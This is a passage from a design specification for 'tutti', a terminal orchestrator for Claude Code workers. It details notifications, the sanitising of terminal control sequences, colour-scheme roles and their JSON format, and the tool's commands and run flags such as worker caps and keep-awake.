- **The terminals tutti knows** are one table, `terminals` in `src/services/Tty.ts`: each row says how a terminal is recognised (its `TERM`s, its `TERM_PROGRAM`s, variables of its own such as `KITTY_WINDOW_ID` or `LC_TERMINAL=iTerm2`), the notification sequence it shows (§7.9) and whether it draws RGB, which only a `TERM` naming it counts for. `Tty` reads the environment once, at startup: the colour depth, that sequence, whether tutti runs inside tmux (`TMUX`) and whether over ssh (`SSH_CONNECTION`, `SSH_CLIENT`, `SSH_TTY`); the Notifier takes them from it. Adding a terminal is one row.

### 7.8 Bracketed paste

Paste goes to the focused composer or textarea in one piece. A paste left unterminated (#1270) times out after 2 s, and what arrived is inserted.

### 7.9 Notifications

As orchestra's table (merged, set aside, needs your answer, stopped, finished), plus **needs you** for attention requests (§4.5), **usage limit** (§4.12) and the **battery** down to 10% (§5 item 16). A question `--auto-answer` answers at once (§8.2), a ticket's or the session's, notifies neither: its `asked` or `attention` record has `auto_answering: true`. With a time, or one it leaves to you, it notifies as without the flag; so does a question ticket filed while the run holds or winds down, as the ready poll answers none then (§5.1). One it took at once that the run winds down or ends with, still open, as when a drain comes between its `asked` record and the look that would answer it, notifies `<ticket> needs your answer · <title>` then, once (autoAnswer.ts's `notifyLeftOpen`; tutti-8832): as the wind-down begins, or as the run ends; a hold only puts the answer off, and doesn't.

- macOS: `osascript`, with Notification Center's title the repository's folder name.
- Linux: `notify-send` when it is installed.
- Also, where the terminal supports it, OSC 9 or OSC 777 (iTerm2, kitty, Ghostty, WezTerm and others), so that notifications work over ssh.

A run that finished by itself notifies `Finished the run · 12 tickets closed · 2 set aside · 1 needs you`, counting each ticket as the dashboard's totals do (§5.1): set aside if `Deferred` or `Review`, needing you if `Blocked` or `Asked`. This differs from orchestra on purpose, whose end line counts a ticket blocked from merging as set aside and leaves out one waiting on a question: a run ending with one `MERGE_CONFLICT` showed `Needs you 1` on the dashboard while its notification said `1 set aside`.

`--notify=false`, `TUTTI_NOTIFY=0` or `"notify": false` in the user config turns them off.

### 7.10 Untrusted text

Text from tickets, models, tool inputs and outputs, check output, MCP server names and `bd` output can hold terminal control sequences. It is all sanitised once, where it enters `RunView`, the transcript view, the log, notifications or plain output:

- C0 control characters other than newline and tab are removed, and so are C1 control characters.
- ESC sequences (CSI, OSC, DCS and the rest) are removed whole.
- Bidirectional overrides and isolates (U+202A–U+202E, U+2066–U+2069) are removed.
- Tabs become spaces in single-line contexts.

Text tutti puts in Markdown, such as the report, is escaped for Markdown first. orchestra has the same rule and a test suite for it (`control_sequences_test.go`); tutti's is a property test (§13). The event stream keeps the original text, JSON-encoded.

### 7.11 Colours and colour schemes

tutti is as colourful as orchestra's Bubble Tea dashboard (D21). Its colours come from a **colour scheme**, a setting of its own (§8.4, §8.5). The default scheme, `orchestra`, is orchestra's colour scheme carried over exactly: the colours of its `internal/tui/style.go`, and for forms those of `huh`'s Charm theme, which orchestra's forms use, lighter on dark on purpose (the form roles, below). Other schemes are files in the same format (below).

**A scheme sets colours only.** What a scheme gives a colour to is a **role**, a meaning such as `live` (live work) or `needsYou`, never a screen element. Each screen element uses a role. The rest is fixed by tutti and is the same in every scheme, so every state reads the same whatever the colours: bold, faint, italic, the glyphs, the words and the border shapes.

#### The roles, and the `orchestra` scheme

As orchestra does, the `orchestra` scheme uses exact colours rather than the 16 ANSI palette slots, "which terminal themes remap (one theme draws "cyan" as near-white)". Each role has a variant for light and for dark backgrounds. The *orchestra colour* column names the colour in orchestra's code.

**Status and structure roles:**

| Role | orchestra colour | Light | Dark | Means |
|---|---|---|---|---|
| `live` | cyan | `#0E7490` | `#22D3EE` | live work: a picked-up ticket, a working worker, the `Current` label, spinners, ticket IDs |
| `done` | green | `#15803D` | `#4ADE80` | done: merged, completed, a worker's finished turn, `✓` |
| `notice` | yellow | `#A16207` | `#FACC15` | worth a look, nothing blocking: set aside, held back, idle, resolving, fixing, testing (bold), retrying, usage, warnings, the stop question |
| `needsYou` | red | `#B91C1C` | `#F87171` | needs you: blocked, a permission request or question waiting, stopped, a stop line |
| `windingDown` | amber | `#C2410C` | `#FB923C` | winding down, and only that: "winding down is your choice, and nothing needs you" |
| `frame` | grey | `#9CA3AF` | `#6B7280` | frames: the totals strip, the tickets table, the `picking the next ticket…` box |
| `organ` | purple | `#6D28D9` | `#A78BFA` | organs: triage verdicts (`◆`), organ lines, `init`'s marks of its own |
| `organText` | lilac | `#7C3AED` | `#C4B5FD` | the organ phase's progress text |
| `toMerge` | blue | `#1D4ED8` | `#60A5FA` | waiting for its turn to merge (`◼ to merge`, `to merge (2nd)`) |
| `merging` | pink | `#BE185D` | `#F472B6` | a merge under way (`◆ merging`, bold) |
| `emphasis` | chalk | `#374151` | `#E5E7EB` | emphasis near the text's own colour: keys to press, the `Tickets` label, tool names, `steered` |
| `quiet` | grey | `#6B7280` | `#9CA3AF` | secondary text a step above faint: the title line's account windows, and Up next's reasons, `ready`, `nothing queued` and `+N more` in the panel beside the tickets table, its IDs and label keeping their styles (§7.2; faint until tutti-dzbv). tutti's own, the grey `typeChore` reads as text with: faint (SGR 2) is drawn too dark beside the text's colour on a dark terminal, half opacity in Ghostty (the maintainer, 2026-10-27, tutti-04sn). Faint where its colour is `default`, as under `NO_COLOR`. A scheme file without `extends` written before it may leave it out, and takes `orchestra`'s |
| `estimate` | sand | `#8A6D3B` | `#D4B483` | an estimate, in italics beside its word `(estimate)`: dollars at API prices on a subscription login, a ticket's share of the five-hour window. tutti's own, apart from the status colours (worker-view design, tutti-cxgo D2) |
| `pill` | Charm purple | `#7D56F4` | `#7D56F4` | the title pill's background and init's **Next** frame: the Charm purple of the Bubble Tea and Lip Gloss examples |
| `pillText` | | `#FAFAFA` | `#FAFAFA` | text on the pill |
| `keepAwake` | | `#B45309` | `#F59E0B` | the keep-awake badge's background (§7.2): tutti's own, a warm amber, set apart from `notice`'s yellow and `windingDown`'s orange text by being a fill |
| `keepAwakeText` | | `#FFFBEB` | `#1C1917` | text on the keep-awake badge: near-white on the light variant's darker amber, near-black on the dark's brighter one, as orchestra's overnight badge |
| `autoAnswer` | | `#0F766E` | `#2DD4BF` | the auto-answer pill's background (§7.2): tutti's own, a teal fill, apart from the keep-awake badge's amber and `live`'s cyan text |
| `autoAnswerText` | | `#F0FDFA` | `#042F2E` | text on the auto-answer pill: near-white on the light variant's darker teal, near-black on the dark's brighter one |

**Ticket roles**: a ticket's type and priority, in the worker view's ticket box (§7.5, tutti-cxgo.6). tutti's own, a colour a type, so that the type reads at a glance; the urgent priorities take the colours of their urgency. In `orchestra` they take the status colours named.

| Role | orchestra colour | Light | Dark | Means |
|---|---|---|---|---|
| `typeBug` | red | `#B91C1C` | `#F87171` | a bug |
| `typeFeature` | green | `#15803D` | `#4ADE80` | a feature |
| `typeTask` | blue | `#1D4ED8` | `#60A5FA` | a task |
| `typeEpic` | purple | `#6D28D9` | `#A78BFA` | an epic |
| `typeChore` | grey | `#6B7280` | `#9CA3AF` | a chore: the `frame` grey, light and dark swapped, so that it reads as text |
| `priorityUrgent` | red | `#B91C1C` | `#F87171` | priority P0 |
| `priorityHigh` | amber | `#C2410C` | `#FB923C` | priority P1; P2 to P4 are faint |

**Report, transcript and selection roles.** In `orchestra` these take the status colours named:

| Role | orchestra colour | Light | Dark | Used for |
|---|---|---|---|---|
| `heading1` | purple | `#6D28D9` | `#A78BFA` | H1 in the report and transcripts |
| `heading2` | cyan | `#0E7490` | `#22D3EE` | H2 |
| `heading3` | chalk | `#374151` | `#E5E7EB` | H3 and below |
| `code` | pink | `#BE185D` | `#F472B6` | inline code and code blocks |
| `link` | blue | `#1D4ED8` | `#60A5FA` | links (not underlined) |
| `added` | green | `#15803D` | `#4ADE80` | added lines in diffs, an edit's `+N` |
| `removed` | red | `#B91C1C` | `#F87171` | removed lines in diffs, an edit's `−M` |
| `selection` | Charm purple | `#7D56F4` | `#7D56F4` | the background of selected text |
| `selectionText` | | `#FAFAFA` | `#FAFAFA` | selected text |

**Form roles**, from `huh`'s Charm theme. Forms are the start question, the init form, the confirmations, the attention card's buttons and the composer.

The dark variants of `formMuted`, `formHelpKey`, `formHelpDesc`, `formHelpSeparator` and `formPlaceholder` depart from `huh`'s and bubbles' on purpose (the maintainer, 2026-10-22, in a dark terminal): theirs (`ansi:243`, `#626262`, `#4A4A4A`, `#3C3C3C`, `ansi:238`) read dim to barely there on a near-black background, so the descriptions, the hints and the placeholders are lighter on dark. `formFaint` is tutti's own, so that `tutti init`'s faint text is lighter on dark too, where faint text (SGR 2) is as dim. The light variants are huh's.

| Role | Light | Dark | Used for |
|---|---|---|---|
| `formText` | `ansi:235` | `ansi:252` | options |
| `formTitle` | `#5A56E0` | `#7571F9` | field titles (bold) |
| `formAccent` | `#F780E2` | `#F780E2` | the selector, the prompt (`>`), next and previous indicators, a focused button's background |
| `formAccentText` | `#FFFDF5` | `#FFFDF5` | a focused button's text |
| `formSelected` | `#02BA84` | `#02BF87` | a selected option, the text cursor |
| `formSelectedMark` | `#02CF92` | `#02A877` | a selected option's `✓ ` prefix |
| `formError` | `#FF4672` | `#ED567A` | a field's error |
| `formMuted` | `default` | `ansi:248` | descriptions; the `• ` prefix of an unselected option |
| `formFaint` | `default` | `ansi:245` | `tutti init`'s faint text: its about line, the repository, the stepper's steps to come, the scout's clock, the working line, and the summary's `•` marks, details and Next numbers. `default` draws it faint in the text's own colour; any other colour is drawn as is, not faint |
| `formHelpKey` | `#909090` | `#9A9A9A` | the keys in a form's hint (bubbles' help styles) |
| `formHelpDesc` | `#B2B2B2` | `#7A7A7A` | what each key in a form's hint does |
| `formHelpSeparator` | `#DDDADA` | `#5A5A5A` | the ` · ` between the keys in a form's hint |
| `formButton` | `ansi:252` | `ansi:237` | an unfocused button's background |
| `formPlaceholder` | `ansi:248` | `ansi:243` | placeholders |
| `formFrame` | `ansi:238` | `ansi:238` | the focused field's left bar |

Faint text (SGR 2) carries the quiet parts: elapsed times, versions, the branch and run time, ` of N`, zero counts, header rows, the ` · ` separators, latest actions, durations, URLs. Bold is used where orchestra uses it (below). Neither is part of a scheme.

#### Where each role goes

As orchestra draws it:

- **Title line**:
  - the pill ` Tutti `, bold `pillText` on `pill`, with a blank line above
  - the version, the branch and the run time faint
  - ` keep awake `, after the version while the keep-awake command holds, `keepAwakeText` on `keepAwake`, not bold
  - ` auto-answer ` (` auto-answer after 10m `), after it with `--auto-answer`, `autoAnswerText` on `autoAnswer`, not bold
  - `· stopping` `needsYou` bold; `· solo <id> next` `notice`; `· solo <id> running` `live` bold
  - `· shared with N runs` `notice`, after them, while other tutti or orchestra runs share the machine (§5 item 5)
  - tutti's banners (§7.2): the account's windows `quiet` (labels, gauge, figures and ` · `); the usage line `notice`, bold once the limit is reached; `BLOCKED` `needsYou` bold
  - a narrow pane gives up the least needed first: the keep-awake badge, then the auto-answer pill, then the branch and the time, then the usage banner (`usage 85% · resets 14:05`, `usage 85%`, then none), then the states, cut from their end, then what the holds say beyond their words; a hold's word stays whole (tutti-u2k)
- **Load line** (orchestra 0.8.5), under the title line, a blank line between (dropped first in a pane too short for a line a worker): `▶ 4 of 4 workers · memory 6.2 GB (workers 4.8, merge check 1.4) · pressure normal · CPU 9.8/10 cores`, read every 5 s while the dashboard shows (`src/run/load.ts`): the memory of each worker's processes (its Claude Code, its process group and all below them) and of what tutti runs besides, named by what runs (`full check 4.2` while the end-of-run full check runs, `checks gate` while a spec run's checks gate does, §4.14, `merge check 1.4` otherwise; tutti-yek1), the kernel's memory pressure (with the memory available on Linux), `swapping N pages/min` while under way, and the 1-minute load against the cores; `sysctl` and `vm_stat` on macOS, `/proc` on Linux, `ps` on both. Each figure in its own signal's colour: the CPU `notice` past 1.5 times the cores and `needsYou` bold past 3 times for a minute, else `done`; the pressure `needsYou` bold at warn or worse, else `done`; swapping `notice`; the memory uncoloured. Workers `live` bold, ` of N workers` faint. Each worker's memory faint after its time on its card's first line (`1.2 GB`, `? GB` when its processes can't be found). The time it has the pressure or the CPU red, or swapping, is left out of a hand-back's time limit (§4.7)
- **Totals strip** (a rounded `frame`, each count then its label faint, a zero faint whole, §7.2):
  - Completed `✓ n` `done` bold
  - Set aside `↷ n` `notice`, with ` · ◆ n triaged` after its label in `organ` bold, ` · ◆ n` or none in a narrow pane
  - Needs you `needsYou` bold
  - In queue: ` · N held back` `notice`, ` · N setup failed` `notice`, ` · held` `windingDown`, after its label
- **Section labels**: `Tickets` `emphasis` bold; `Current` `live` bold.
- **Ticket rows** (a rounded `frame`). The glyph and word take the state's style; for a finished ticket, the rest of its row is faint.

  | Style | Rows |
  |---|---|
  | `live` bold, title shown | `▶ working`, `▶ editing`, `▶ reading`, `▶ subagent`, `▶ starting` |
  | `notice` bold | `▶ testing` |
  | `done` bold | `✓ done` |
  | `notice` | `↷ deferred`, `! review`, `⟳ resolving`, `⟳ fixing`, `▶ retrying`, `◷ limit` |
  | `needsYou` bold | `■ stopped`, `■ blocked`, `? for you`, `■ allow?`, `■ answer?` |
  | `toMerge` | `◼ to merge` |
  | `merging` bold | `◆ merging` |
  | faint | `◷ waiting`, `+N earlier tickets` |
  | `organ` bold | a triage verdict, `◆ …` |
- **Worker cards** (rounded): framed `live` while the worker runs, `needsYou` when it, or any worker in a compact box, waits for you.
  - The number `emphasis` bold; the ticket ID `live` bold; the elapsed time and the latest action faint.
  - The mark: the spinner `live` bold while it works, `◼` `toMerge`, `◆` `merging`, `•` `done`.
  - Statuses: `working`, `editing`, `reading`, `subagent` `live` bold; `testing` `notice` bold; `idle`, `unknown`, `resolving`, `fixing check`, `retrying 3/10 (529)`, `usage limit · resets 14:05`, `stopped` `notice`; `blocked — waiting for you` and `permission — waiting for you` `needsYou` bold; `failed`, `gone` `needsYou`; `done` `done`; `to merge (2nd)` `toMerge`; `merging` `merging` bold; `steered` beside a status `emphasis`.
  - The box with no worker (`picking the next ticket…`, `stopping…`, `full check: scripts/check-full.sh · 1m12s`): framed `frame`, the spinner `live`, the text faint.
- **The wind-down line**: one `■` per ticket, `windingDown` while it runs, `done` once merged, `needsYou` (not bold) once set aside or waiting on you; `Winding down` `windingDown` bold; the rest faint.
- **The stop question**: framed `notice`; the question `notice` bold; `y` and `n` `emphasis` bold; `/` faint.
- **The hint**: each key `emphasis` bold, its words faint, ` · ` faint. A warning line above it, ` ! …`, `notice`.
- **The worker view's figures** (§7.5), on line 1: the figures, the time and `context` in the text's own colour, the words `of` and `compactions` and the memory faint; the window's share and its `(estimate)` `estimate` italic; the context's figure `notice` from 70%, `needsYou` from 90%; the warning `notice`, bold once the limit is reached.
- **The worker view's ticket box** (§7.5): its frame `frame`; `Ticket` in its top border `emphasis` bold; the type `typeBug`, `typeFeature`, `typeTask`, `typeEpic` or `typeChore`, any other in the text's colour; the priority `priorityUrgent` at P0, `priorityHigh` at P1, faint from P2; the ` · ` between them faint; the title bold; `▾ whole ticket` `link`, its key `emphasis` bold. Where there is no box, at the minimum size, line 1 ends with the type and priority in the same colours.
- **Nothing to run**:
  - `✓ All done`: framed `done`; `✓` `done` bold, `All done` bold
  - `○ Nothing ready to run`: framed `frame`; `○` faint, the heading bold
  - in both: ticket IDs `live` bold, commands `emphasis` bold
- **The summary**:
  - The closing line (`♪ Completed the Run` and the other ends) is `done` bold, its facts faint. A stop's line is `needsYou` bold (`■ PAUSED: …`).
  - `SCOPE_DONE` `done`, `SCOPE_OPEN` `notice`.
  - Organ lines: `◆ ` `organ` bold, text `organText`, durations faint. While one runs, the spinner is `live` bold, its text `organText` and its clock faint.
  - The run's figures (§7.1): the labels and ` · ` faint, the figures in the text's own colour, an estimate `estimate` italic.
- **Markdown** (the report, and assistant text in the worker view):
  - H1 `heading1` bold, H2 `heading2` bold, H3 and below `heading3` bold
  - inline code and code blocks `code`
  - quotes faint italic behind a faint `│ `; rules a faint `─`, at most 40 long
  - links `link`, not underlined, with their URL faint; a bare URL, its own label, `link`
- **`tutti init`**:
  - the pill, `init` `organ` bold, the repository `formFaint`; the about line under it `formFaint`
  - the stepper: the step done `done` bold, the one under way `organ` bold, the steps to come and the lines to them `formFaint`, the lines reached `done`
  - step marks: `✓` `done`, `•` `formFaint`, `✗` `needsYou` bold, `!` `notice`
  - the **Next** box framed `pill`, its title `organ` bold
  - `♪ tutti is ready.` `organ` bold; `♪ Almost ready: fix what's missing above.` `notice`; `Cancelled; nothing was changed.` `notice`
- **A newer release**: the line `notice`, its command `emphasis` bold.
- **What is new in tutti**:
  - **Attention cards**: framed `needsYou`. The request's line (§ 4.5) is in the default text colour, the input's summary and the reason under it faint. The buttons are in the form roles: the focused one `formAccentText` on `formAccent`, the others `formText` on `formButton`. With `defaultToNo`, Deny is the focused one.
  - **The highlight** (`Tab` between cards) keeps the card's frame role and draws it bold in OpenTUI's `heavy` border style, so the state's colour is never replaced. Cards are otherwise `rounded`.
  - **A classifier denial** on a card's action line: `notice`, for its 10 seconds.
  - **The worker view**:
    - the header like a card's first line, with `← Dashboard` `emphasis` bold
    - tool names `emphasis` bold; a tool's `✓` `done`, its error `needsYou`
    - an edit's `+N` `added` and `−M` `removed`; in diffs, additions `added` and removals `removed`
    - command output faint; a subagent's items behind a faint `│ `
  - **The composer**: the prompt (`>`) `formAccent`, the cursor `formSelected`, the placeholder `formPlaceholder`.
  - **Toasts**: faint, or `needsYou` for a failure (`couldn't copy`), right-aligned and opaque, at most three, the newest lowest. On the dashboard they sit above the hint. In the worker view and the Interview view they sit above everything you write or are about to send (tutti-fknd, the maintainer's answer to tutti-0dwp): the first on the rule over the held line, the finished or steered line, the queued messages and the composer, the others over the request panel's or the transcript's last lines, so a toast never hides what you type or the message it is about. They count the lines those parts are drawn on, so they move up as the composer grows.
  - **Selected text**: `selectionText` on `selection`.

`notice` covers usage, retrying and the usage limit: a limit resets by itself and needs nothing from you, so it isn't `needsYou`. `windingDown` is never used for anything but winding down. `steered` is `emphasis`, since steering is your doing and needs nothing more.

#### Choosing a scheme

The first of these that is set wins:

| Where | Key | Scope |
|---|---|---|
| `--colour-scheme <name>` | | this run |
| `TUTTI_COLOUR_SCHEME=<name>` | | this run |
| the user config (§8.5) | `"colour_scheme"` | your runs, in every project |
| `.tutti/settings.json` (§8.4) | `"ui": { "colour_scheme": … }` | the project's default, committed and shared with its team |
| | | `orchestra` |

Your own choice wins over the project's, since colours are a matter of taste and sight.

#### Where schemes come from

A name is looked up in this order:

1. `.tutti/colour-schemes/<name>.json` in the main checkout (committed, for the project's team)
2. `$XDG_CONFIG_HOME/tutti/colour-schemes/<name>.json` (`~/.config/tutti/colour-schemes/`, yours)
3. the built-in schemes

`orchestra` is the only built-in scheme (§15, Q10). Built-in names are reserved: a file named `orchestra.json` is ignored with a warning.

#### Writing a scheme

A scheme is a JSON file defined with Effect Schema, with a published JSON Schema (`schema/colour-scheme.json`) for editors:

```json
{
  "$schema": "https://raw.githubusercontent.com/noesis-sol/tutti/main/schema/colour-scheme.json",
  "name": "dusk",
  "description": "orchestra's scheme with a teal live colour and a rose pill",
  "extends": "orchestra",
  "colours": {
    "live": { "light": "#0F766E", "dark": "#2DD4BF" },
    "heading2": { "light": "#0F766E", "dark": "#2DD4BF" },
    "pill": "#E11D48",
    "selection": "#E11D48",
    "frame": "ansi:8"
  }
}
```

- **`name`** matches the file's name. **`description`** is optional.
- **`extends`** names another scheme, such as `orchestra`. Every role the file leaves out comes from that scheme, so a scheme can change one colour and keep the rest. Without `extends`, the file must give every role but those added since schemes were first written, which come from `orchestra` where it leaves them out, so that an older scheme still loads: so far only `quiet` (tutti-04sn).
- **`colours`** maps roles to values. A value is one colour for both variants, or `{ "light": …, "dark": … }`. A colour is:
  - **`#RRGGBB`**: exact. On a 256-colour terminal it becomes the nearest of the 256.
  - **`ansi:N`**, with N from 0 to 255: a palette slot. Slots 0 to 15 follow the terminal's own theme. The `orchestra` scheme avoids those, but a scheme that wants to follow the terminal's theme can use them. Slots 16 to 255 are the standard cube and greys.
  - **`default`**: the terminal's default foreground, or its background for a background role (`pill`, `formAccent`, `formButton`, `selection`).

  In OpenTUI these become `RGBA.fromHex`, `RGBA.fromIndex(N)` and `RGBA.defaultForeground()` or `defaultBackground()`. Outside the renderer they become `Bun.color(hex, "ansi-16m")` (or `"ansi-256"` on a 256-colour terminal), `\x1b[38;5;Nm` (or `48;5;N` for a background), and `\x1b[39m` (or `49`).

**A scheme that can't be used never stops a run.** Colours aren't worth refusing work over. The scheme isn't used when:

- its name isn't found
- the file isn't valid JSON, or a key isn't one the format knows
- a role is unknown, or a colour can't be read
- `name` doesn't match the file's name
- roles are missing and there's no `extends`, or `extends` names a scheme that can't be found or loops back

tutti then uses `orchestra` and says why once: in the `START` block, on the dashboard's warning line (` ! colour scheme 'dusk' isn't used: 'colours.frame': 'ansi:300' is not a palette slot (0–255)`) and in `tutti init`'s summary.

**`tutti colours [<name>]`** previews a scheme without a run. It reports:

- every role, where its colour comes from (the file, or the scheme it extends), and a sample in the light and the dark variant
- a mock card, ticket row, attention card and hint, in the terminal's own variant
- anything that would keep the scheme from being used

It exits 1 when there is such a problem, so a scheme can be checked in CI. A problem with the rest of the setup (a settings or user config key it can't read, a bad `TUTTI_*` variable) doesn't stop the preview: what has one gives the next in this section's order, and the command lists it with the scheme's problems and exits 1.

#### Light or dark

A role's light or dark variant is picked from the terminal's background, as Lip Gloss's `AdaptiveColor` does in orchestra.

- **Detection.** tutti uses OpenTUI's own: at start it waits up to 250 ms on `renderer.waitForThemeMode()`. That queries the terminal's foreground and background (OSC 10 and 11) and calls a background brighter than mid-grey light. An unknown mode counts as dark, as Lip Gloss assumes.
- **Live switching.** When the terminal reports a change of theme (OpenTUI's `theme_mode` event), tutti switches variants live. orchestra chose once, at start.
- **Override.** `"appearance": "light"` or `"dark"` in the user config (§8.5), or `TUTTI_APPEARANCE`, overrides the detection; `auto` is the default. The *appearance* is the variant; the *colour scheme* is the set of colours. They are set apart.
- **Known issue.** OpenTUI #1663 (light mode broken on iTerm2) is checked in M3.

#### Colour depth and `NO_COLOR`

On a truecolor terminal the exact colours are drawn. With 256 colours, OpenTUI uses the nearest, as Lip Gloss degrades (§7.7). With `NO_COLOR` set, every role becomes the terminal's default colour, whatever the scheme; bold, faint, italics, glyphs and words remain. Selected text is the one exception: under `NO_COLOR`, and for a scheme that leaves `selection` or `selectionText` to `default`, it takes `orchestra`'s `selection` and `selectionText` colours (`#FAFAFA` on `#7D56F4`), so that a selection stays visible. A focused button, which colour alone marks otherwise (`formAccentText` on `formAccent`), is drawn bold and reversed where its background is the terminal's default, under `NO_COLOR` or a scheme that leaves `formAccent` to `default`, so that you can see which button Enter presses. Colour is never the only signal: every state also has its glyph and its word, as in orchestra (`■ blocked`, `◼ to merge`).

#### One module

- **The roles and the loader.** `src/ui/theme.ts` holds:
  - the roles, as a `Schema.Literal` union, so a role that is misspelt in the code doesn't compile
  - the scheme format and its loader: lookup, `extends`, validation, the fallback to `orchestra`
  - the styles built from the active scheme, named as orchestra names its styles: `picked`, `closed`, `deferred`, `stop`, `windDown`, `heldBack`, `done`, `organ`, `say`, `testing`, `toMerge`, `merging`, `key`, `tickets`, `dim`, `title`, and tutti's own `estimate`

  The `orchestra` scheme is `src/ui/schemes/orchestra.json`, embedded in the binary.
- **Who resolves the scheme.** `AppConfig` resolves the scheme once at startup, with the rest of the settings.
- **Components** use the styles, never a scheme, a role's raw value or a hex colour.
- **Output outside the renderer** uses the same styles: the printer after the dashboard (§7.1), `tutti init`'s summary, the nothing-to-run box, the line-based forms, `tutti colours`. Their variant is the one the renderer detected. Where no renderer ran, tutti sends an OSC 11 query of its own with a 250 ms limit, and assumes dark without an answer.

#### Glyphs and motion

Carried over too, and not part of any scheme:

- rounded frames (`╭╮╰╯`)
- the spinner, Bubbles' `Dot`: frames `⣾ ⣽ ⣻ ⢿ ⡿ ⣟ ⣯ ⣷`, ten a second; on the dashboard, in init's form, on the organ lines, and on the line a run draws while it gets ready (§7.1 "Getting ready")
- the state glyphs `▶ ✓ ↷ ! ■ ? ◷ ◼ ◆ ⟳ •`, and `○ ♪`
- tutti's latest-action glyph, `▸`

---

## 8. Commands and settings

### 8.1 Commands

| Command | What it does |
|---|---|
| `tutti` | a run (§5) |
| `tutti init` | sets the project up (§8.3) |
| `tutti checks [--check-fast …] [--check-full …] [--check-fast-timeout …] [--check-full-timeout …] [--setup …] [--no-mouse]` | sets the project's checks again after init, in init's Checks step on its own (§8.3) |
| `tutti plan [--apply]` | proposes blocks links between open tickets that touch the same code, as `orchestra plan` does, a shared function counting only when the repository declares it, as a run's overlap does (§5 item 5); a stop (Ctrl+C, SIGTERM) during `--apply` comes between two links, says which it added and which not, exit 130 |
| `tutti answer [<id> <answer> …] [--json]` | lists or answers open attention requests (§4.5, D20), and the open question tickets after them: each with the tickets waiting on it and its options numbered, the recommended one first; `tutti answer <question> <answer>` answers one by an option's number or label, or in your own words, as the dashboard's `Shift+A` records it (§4.11); the listing's hint puts `--` before the answer, so that a label starting with `-`, a flag's name, is taken as the answer; `tutti answer --talk <question>` talks it through with Claude in the terminal first, in the Interview view, and records the answer you settle on (§4.11), or says it stays open. `--json` lists the requests alone |
| `tutti login` | runs the embedded Claude Code's `auth login`, the claude.ai login (§4.13) |
| `tutti colours [<name>]` | previews and checks a colour scheme, the one in use by default (§7.11) |
| `tutti requires [--no-install] [--markdown\|--readme]` | checks the project's requires list (§8.4) as a run's start does, installing what it can, each entry's state a line, exit 2 for one missing, as `orchestra requires`; `--markdown` prints the README's section on what to install generated from the list, `--readme` writes it into `README.md`. It reads and writes the checkout it is started in (`git rev-parse --show-toplevel`), a ticket's worktree its own, as orchestra's does, where the other subcommands find the main checkout: a worker that changes the list in its worktree checks that list and writes that README, on its branch |
| `tutti update [--check] [--force]` | updates the binary from the latest signed release (§12) |
| `tutti --version` | the version; a build from a clone ends with its commit's 12-character hash, plus `+dirty` |

### 8.2 Run flags

The flags are orchestra's, minus those for terminals and agent kinds:

- `-c/--concurrent N` (1–16), `--tickets`, `--ticket <id>`, `--feature "<request>"` (talked through in the Interview view, §4.10; with `--refine` taken, changing nothing)
- `--yes` and `TUTTI_YES` are retired and refused (tutti-kkb.60, as orchestra 0.8.x, which has no unattended feature run): hidden from --help, still taken with any value, and given, a setup problem (exit 2): `--yes is no longer read: --feature always talks the feature through with you; tutti --spec <file> runs a request written to a file unattended.` (`retiredFlags`' `refused`). `organs.screen` and `organs.plan`, in the settings or the user config, are read whatever they are and ignored, the START block saying so once each, naming the file: `organs.plan in .tutti/settings.json is no longer read: the plan organ is gone, and --feature talks the feature through with you` (`retiredOrganKeys` in `src/project/settings.ts`); the published schemas leave them out
- `--spec <file|url>`, `--refine`, `--spec-timeout <time>`, `--spec-effort <level>` (tutti-kkb.28): a spec run (§4.14), its spec a Markdown or plain-text file on this machine, or at an `https://` URL (tutti-kkb.53, tutti's own); `--refine` breaks it down with you; the other two override `spec.timeout` and `spec.effort` (§8.4) for one run
- `--machine-workers N` (orchestra 0.8.5): the most workers across the machine's tutti and orchestra runs, which register in orchestra's folder of runs (`src/run/machine.ts`); `0` for no cap. Its variable is `TUTTI_MACHINE_WORKERS`, then orchestra's `ORCHESTRA_MACHINE_WORKERS`, as the cap is the machine's, set once in the shell's profile for both. By default it is half the cores (`availableParallelism()`), at least 2, as orchestra 0.9.3's `DefaultMachineWorkers`: workers mostly wait on the model, but their checks are CPU-heavy, and runs slowed sharply past about 4 checks at once on 10 cores. The `START` line says the cap and what gave it, `machine workers: 5 (default: half of 10 cores)` (or `--machine-workers`, `TUTTI_MACHINE_WORKERS`, `ORCHESTRA_MACHINE_WORKERS`; `none` for no cap), and a run whose own `concurrent` is above the cap says so once under it: `concurrent 6 is above the machine's cap of 5 workers: the run holds at it (HOLD: MACHINE), with fewer of its own as the machine's other runs have workers running`. A run's workers, for the cap and in its registration, are the slots its scheduler counts taken (`src/run/schedule.ts`'s `slotsTaken`, § 5 item 5), as orchestra 0.9.4 counts them: a ticket waiting to merge or merging takes none up to `concurrent` of them, so with `concurrent` 4 and a cap of 5, 3 tickets working and 2 waiting to merge don't hold the run
- **Keeping the machine awake** is the default, with no flag (tutti-22jf): a run keeps the machine from sleeping when idle while it goes, the organs of its report included, unless `keep_awake` is `false` in the project's settings (§8.4) or the user config (§8.5), whose choice wins; `--overnight` keeps it awake whatever they say (`AppConfig`'s `keepAwake`). It prevents idle sleep only: closing a laptop's lid still sleeps it (tutti-abem), a Mac unless it runs on power with an external display (clamshell mode), a Linux laptop unless it is docked or has an external display, as logind ignores the inhibitor lock for the lid (`LidSwitchIgnoreInhibited` defaults to `yes`; `HandleLidSwitchDocked` defaults to `ignore`). A run kept awake on a machine with a battery says so in its START block (`lidNote` in `src/run/keepAwake.ts`), naming `sudo pmset -a disablesleep 1` (and `0` afterwards) on macOS and `HandleLidSwitch=ignore` in logind.conf on Linux, which keep a closed laptop awake, system-wide, and which tutti never runs or sets itself. As the run begins (after the start question, before `--feature`'s interview), tutti starts the system's keep-awake command with its PID through `effect/process`, in the scope of the run's services, which stops it as the run ends: `caffeinate -i -w <pid>` on macOS, `systemd-inhibit --what=idle:sleep … tail --pid=<pid> -f /dev/null` on Linux (`src/run/keepAwake.ts`). The log says `keeping the machine awake while the run goes: <command>`, and says so should the command end by itself. Where the system has none, or it isn't on the PATH, the START block warns once, and the run goes on. Where keeping awake is off, the START block says so and which file says so: `keep awake: off, keep_awake in ~/.config/tutti/config.json` (the user config named from `~` where it is in the home folder, `userConfigShown`), and the first time the run notices the machine slept, its `SLEPT` line says to set it true (§5 item 15); its time limits don't count the sleep either way (§3.3). This reverses tutti-v0tn on purpose (2026-10-27): that made it `--keep-awake`, off by default and chosen for each run, as keeping a machine awake is one person's choice and the project's settings are committed for everyone; but a run started without the flag let the machine idle-sleep mid-work 